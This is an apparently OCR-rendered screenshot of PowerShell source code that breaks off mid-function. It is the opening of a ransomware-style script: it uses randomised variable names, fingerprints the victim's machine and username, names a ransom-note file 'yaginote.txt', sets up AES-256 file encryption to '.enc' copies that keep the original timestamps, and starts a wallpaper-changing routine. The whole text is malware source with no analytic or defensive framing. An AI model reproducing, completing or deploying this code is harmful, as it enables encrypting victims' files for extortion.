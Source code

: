 ```powershell
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
function RemoveWallpaper {
$code = @"
using System;
```